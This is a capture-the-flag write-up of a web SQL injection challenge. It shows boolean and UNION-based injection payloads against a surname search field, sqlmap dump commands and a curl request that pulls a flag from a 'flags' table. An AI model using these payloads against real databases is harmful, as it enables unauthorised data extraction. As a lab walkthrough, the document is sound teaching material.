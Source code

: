 # Web SQL Injection Demo

The page presents a form with the message:
- "Search user by surname"
- "Funny, do you think you can find me?"

There is a **POST** form input called surname, which submits data to /index.php.


## 1: Initial Observation
We opened the page and tried a manual injection in the form:

```sql
' OR 1=1 --
```

The response contained:

```html
<small id="emailHelp" class="form-text text-muted">admin</small>
<small id="emailHelp" class="form-text text-muted">ctf</small>
```

This confirmed that the application was vulnerable to SQL Injection, and user data was being leaked via SQL queries on the surname field.

## 2: Trying with sqlmap
We attempted to automate the attack using sqlmap:

```bash
sqlmap -u "http://141.85.224.127:8083/index.php" \
  --data="surname=anything" \
  --batch --dump
```

Output:
```text
[WARNING] POST parameter 'surname' does not appear to be dynamic
[CRITICAL] all tested parameters do not appear to be injectable.
Try to increase values for '--level'/'--risk'...
[WARNING] your sqlmap version is outdated
```

Even after adjusting options with:

***--level=5 --risk=3 --time-sec=10 --random-agent*** and trying different techniques:

```bash
--technique=U,T,B
```
the results were the same: sqlmap was unable to detect the injection automatically, likely due to:
- A lack of dynamic page difference for automated comparison.
- A WAF or timeout issue when detecting time-based or error-based payloads.
- Content filtering or noise in output.

## 3: Finding a Way to Extract the Flag
Knowing this, we suspected there might be a hidden table (likely called flags or flag) that we could read from.

To use SQLi effectively, we needed to determine:

How many columns the query was using.

Which column would be reflected back to the page.

We tried the following UNION-based injection:

```sql
surname=admin' UNION SELECT NULL -- 
surname=admin' UNION SELECT NULL,NULL -- 
surname=admin' UNION SELECT NULL,NULL,NULL -- 
```

Eventually, injecting three columns worked without breaking the page structure.

## 4: Constructing Final Payload
Once we confirmed the correct column count, we injected the flag using this payload:

```sql
admin' UNION SELECT v, NULL, NULL FROM flags -- 
```

Where:
- v is the assumed flag column.
- flags is the assumed table holding the flag.

To use command like this, we used curl:

```bash
curl -s "http://141.85.224.127:8083/index.php" --data-raw "surname=admin' UNION SELECT v,NULL,NULL FROM flags -- "
```

This sends the malicious surname field directly to the backend and prints the entire HTML page response.

The flag appears in this format:

```html
<small id="emailHelp" class="form-text text-muted">SSS{mAsTeR_oF_sQlI}</small>
```
